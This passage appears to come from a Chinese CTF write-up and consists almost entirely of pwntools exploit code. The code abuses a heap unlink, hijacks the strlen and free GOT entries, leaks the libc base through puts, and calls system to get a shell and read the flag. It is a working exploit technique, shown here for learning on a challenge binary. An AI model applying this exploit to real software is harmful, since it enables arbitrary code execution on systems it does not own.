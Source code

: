    ```python
   next_size = 0x90
   payload2 = p64(0) + p64(size) + content + p64(prve_size)+p64(next_size)
   edit(2,payload2)
   
   
   #触发unlink
   free(3)
   
   #利用unlink，创造傀儡chunk4，通过chunk2控制傀儡
   new_addr = 0x602160
   payload2 = p64(0)*3 + p64(new_addr)
   edit(2,payload2)
   
   
   #利用傀儡，先用puts函数hook掉strlen函数
   payload2 = p64(elf.got["strlen"])     #写入strlen函数的got表
   edit(2,payload2)
   
   payload4 = p64(elf.plt["puts"])       #修改strlen函数的got表
   edit(4,payload4)
   
   #利用傀儡，泄漏puts函数的got表，泄漏libc基地址
   payload2 = p64(elf.got["puts"])     #写入puts函数的got表
   edit(2,payload2)
   
   show(4)     #输出puts函数got表的内容
   #获取libc基地址
   puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = puts_addr - libc.symbols['puts']
   sys_addr = libc_base + libc.symbols['system']
   success("puts_addr==>"+hex(puts_addr))
   success("libc_addr==>"+hex(libc_base))
   success("system_addr==>"+hex(sys_addr))
   
   #继续利用傀儡，hook掉free函数的got表，改为system函数地址
   payload2 = p64(elf.got["free"])     #写入strlen函数的got表
   edit(2,payload2)
   
   payload4 = p64(sys_addr)       #修改free函数的got表
   edit(4,payload4)
   debug()
   
   free(5)
   p.sendline(b"cat flag")
   p.interactive()
   ```

   成功拿到flag：

   ![image-20240718122855514](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181228664.png)

